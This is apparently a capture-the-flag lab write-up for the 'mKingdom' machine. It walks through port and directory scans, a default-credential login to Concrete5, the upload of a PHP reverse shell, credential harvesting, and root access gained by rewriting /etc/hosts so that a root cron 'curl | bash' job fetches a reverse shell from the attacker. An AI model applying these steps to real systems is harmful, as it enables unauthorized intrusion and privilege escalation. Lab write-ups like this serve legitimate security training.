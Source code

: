 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We perform a basic port scan.")}}

{{console("nmap -T5 -p- -sV 10.10.216.30", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-20 20:12 CET
Nmap scan report for 10.10.216.30
Host is up (0.080s latency).
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))

Nmap done: 1 IP address (1 host up)")}}

{{text("We find one open port running an HTTP service.")}}

{{text("At <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.216.30:85</code>, we are greeted with a taunting message.")}}

{{image("../../static/writeups/mkingdom/images/000001.jpg")}}

{{text("Next, I scanned for hidden directories.")}}

{{console("gobuster dir -u http://10.10.216.30:85 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.216.30:85
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 288]
/app                  (Status: 301) [Size: 312] [--> http://10.10.216.30:85/app/]
/index.html           (Status: 200) [Size: 647]
/server-status        (Status: 403) [Size: 292]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("We discover the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/app</code> directory.")}}

{{text("It contains a button that redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/app/castle</code>.")}}

{{image("../../static/writeups/mkingdom/images/000002.jpg")}}

{{header("Shell as www-data", "asdf")}}

{{text("We identify the CMS as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Concrete5</code> with version <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>8.5.2</code>.")}}

{{text("We search for an exploit for this version.")}}

{{text("We find this article.")}}

{{link("https://vulners.com/hackerone/H1:768322", "https://vulners.com/favicon.ico", "Concrete CMS: Remote Code Execution (Reverse Shell)")}}

{{text("This exploit requires admin permissions.")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Gobuster</code> again reveals a login page at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/app/castle/index.php/login</code>.")}}

{{image("../../static/writeups/mkingdom/images/000003.jpg")}}

{{text("Normally, I would attempt to brute-force this form, but that's unnecessary here.")}}

{{text("We can search for Concrete 5 default username which is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code> and after guessing the password which is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>password</code>, we successfully log in.")}}

{{image("../../static/writeups/mkingdom/images/000004.jpg")}}

{{text("Following the article, we allow PHP files, upload a reverse shell, and execute it.")}}

{{text("In <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>System & Settings</code>, navigate to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Allowed File Types</code>.")}}

{{text("Add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PHP</code> to the list of allowed file types.")}}

{{image("../../static/writeups/mkingdom/images/000005.jpg")}}

{{text("Next, we upload a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PHP PentestMonkey</code> reverse shell obtained from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code>.")}}

{{image("../../static/writeups/mkingdom/images/000006.jpg")}}

{{text("Once uploaded, we set up a listener and execute the uploaded file by doing to the correct URL.")}}

{{image("../../static/writeups/mkingdom/images/000007.jpg")}}

{{text("This grants us a reverse shell.")}}

{{image("../../static/writeups/mkingdom/images/000008.jpg")}}

{{header("Shell as toad", "shell-as-toad")}}

{{text("In <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/html/app/castle/application/config</code>, we find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>database.php</code> file containing the credentials for the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>toad</code> user.")}}

{{image("../../static/writeups/mkingdom/images/000009.jpg")}}

{{header("Shell as mario", "shell-as-mario")}}

{{text("In the current user's home directory, we find a base64-encoded string. Decoding it reveals another user's password.")}}

{{console("cat .bashrc", "...
export PWD_token='[REDACTED]'")}}

{{text("From <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/passwd</code>, we identify another user, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mario</code>. Logging in as this user succeeds.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I couldn't find anything interesting and running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linpeas</code> also didn't help.")}}

{{text("I downloaded <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pspy64</code> from my machine using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http.server</code> together with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wget</code> and ran it, trying to see any background processes.")}}

{{text("Remember to be in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp</code> directory, otherwise you won't have neccessary permissions to write this file.")}}

{{text("We use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>chmod +x pspy64</code> and finally run it.")}}

{{console("./pspy64", "...
2024/11/21 10:59:01 CMD: UID=0     PID=2426   | bash 
2024/11/21 10:59:01 CMD: UID=0     PID=2425   | curl mkingdom.thm:85/app/castle/application/counter.sh 
2024/11/21 10:59:01 CMD: UID=0     PID=2424   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
2024/11/21 10:59:01 CMD: UID=0     PID=2423   | CRON 
...")}}

{{text("If we were able to modify the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mkingdom.thm</code> ip address to our own, we should be able to download a reverse shell from our machine and execute it instead.")}}

{{text("We have write permissions to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> so we should be able to do just that.")}}

{{console("echo 'OUR_IP' > /etc/hosts")}}

{{image("../../static/writeups/mkingdom/images/000010.jpg")}}

{{text("We have to create the same directories from which the file gets downloaded, so <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/app/castle/application</code> and create a reverse shell with the name <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>counter.sh</code>.")}}

{{text("After that, we run a python http server with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>python3 -m http.server 85</code> and wait for our file to get downloaded.")}}

{{text("Remember to use port 85, since it's the port which the curl command uses.")}}

{{console("python3 -m http.server 85", "Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.216.30 - - [21/Nov/2024 17:16:03] 'GET /app/castle/application/counter.sh HTTP/1.1' 200 -")}}

{{text("File gets successfully downloaded, and we get a reverse shell as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>root</code>.")}}

{{text("One more thing, we have to use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/lib/klibc/bin/cat</code> instead of just cat to read the flag.")}}

{{text("Alternativally, use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tac root.txt</code>.")}}

{{image("../../static/writeups/mkingdom/images/000011.jpg")}}

{{script()}}